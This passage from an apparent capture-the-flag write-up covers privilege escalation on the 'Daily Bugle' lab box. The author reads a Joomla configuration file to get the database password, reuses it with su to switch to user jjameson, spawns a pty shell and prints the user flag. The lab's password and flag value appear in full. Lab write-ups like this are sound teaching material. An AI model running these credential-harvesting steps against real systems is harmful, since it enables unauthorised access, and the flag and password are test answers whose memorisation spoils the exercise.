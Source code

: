 ~~~
sh-4.2$
~~~

Now I need to escalate my privilege. first I checked `/home` to find users and the only user is `jjameson`. I checked `/var/www/html/configuration.php` and found the password for the database.

~~~
sh-4.2$ cat configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';

    [REDACTED]
~~~

password: `nv5uz9r3ZEDzVjNu`

It was worth to try the database password for the user I found, and luckily it worked. I spawned a shell using a simple python code and found the user flag in jjameson's home directory.

~~~
sh-4.2$ su jjameson
password: nv5uz9r3ZEDzVjNu


$ id
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
$ whoami
jjameson

$ python -c "import pty;pty.spawn('/bin/bash')"

[jjameson@dailybugle ~]$ cd
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
~~~
